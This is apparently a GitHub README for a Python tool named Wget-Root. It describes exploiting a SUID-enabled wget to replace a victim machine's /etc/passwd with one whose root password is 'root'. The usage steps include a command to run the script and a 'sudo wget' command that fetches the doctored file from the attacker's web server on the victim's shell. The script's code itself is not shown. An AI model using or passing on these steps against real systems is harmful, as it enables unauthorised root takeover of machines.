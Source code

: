# Wget-Root

This is a python script that exploits wget when being set with a SUID bit, and overwrites the root password.

# Usage
From the victims shell, copy the /etc/passwd file to your host machine. (Be carefull and do not overwrite your own passwd file)
```bash
python3 wget_exploit --file <passwd copy> --port <webserver port>
```
The script will overwrite the <passwd copy> file, containing the changed `root` password. 
Then it will host the passwd file to the web using a python http server.
Run the command `sudo wget http://<host ip>:<webserver port>/` on the victims shell to overwrite the passwd file.
**Congratulations!** Now switch users to `root` with the password `root`
